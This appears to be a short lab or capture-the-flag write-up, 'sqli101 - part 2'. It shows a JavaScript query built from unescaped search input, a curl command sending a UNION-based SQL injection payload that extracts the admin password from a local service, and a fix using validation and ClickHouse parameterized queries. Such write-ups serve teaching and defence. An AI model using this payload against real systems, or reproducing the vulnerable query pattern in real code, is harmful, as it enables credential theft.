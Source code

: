 # sqli101 - part 2

## Vulnerability
Unescaped user inputs used in the following SQL query.
```js
db.testQuery("SELECT username\nFROM user\nWHERE username LIKE '%" + search + "%'")
```

## Exploitation
```bash
curl --request POST \
  --url http://localhost:80/user_lookup \
  --header 'Content-Type: application/json' \
  --data '{
    "search": "'\'' AND 1=2 UNION ALL SELECT password FROM user WHERE username = '\''admin'\'' OR '\''1'\''='\''"
}'
```

## Fix
User inputs should be validated (can use a regex to restrict to a subset of ascii characters).  
User inputs can also be escaped.

It is also possible to use query parameterized queries. (cf [ClickHouse documentation](https://clickhouse.com/docs/en/interfaces/cli#cli-queries-with-parameters)).  
Implementing that solution changes two files, `routes/index.js` and `database.js`

```js
db.testQuery("SELECT username\nFROM user\nWHERE username LIKE '%{search:String}%'", {'search': search})

async testQuery(query, parameters) {
    return this.clickhouse.query(query, {'params': parameters}).toPromise();
}
```
